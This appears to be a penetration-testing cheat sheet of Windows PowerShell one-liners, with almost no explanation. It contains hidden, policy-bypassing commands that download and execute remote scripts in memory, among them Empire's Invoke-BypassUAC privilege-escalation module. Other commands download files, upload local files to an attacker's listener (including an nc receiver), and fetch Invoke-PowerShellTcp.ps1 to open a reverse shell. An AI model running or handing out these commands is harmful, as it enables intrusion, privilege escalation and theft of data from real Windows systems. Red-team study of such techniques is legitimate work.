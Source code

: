 ## Start up WebServer

## Run script in memory:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

#EXAMPLE
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE'))
```

=========================================
# Download File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

=========================================
# Upload File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

---------------
# If you can't copy over SMB
## On Local Box
nc -lnvp 443 > Out.File
## On Windows Box
```ps
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>
```
=========================================

[+] EXTRA
## Upgrade PSH to 64-bit shell
```ps
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
#HIDDEN
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
```
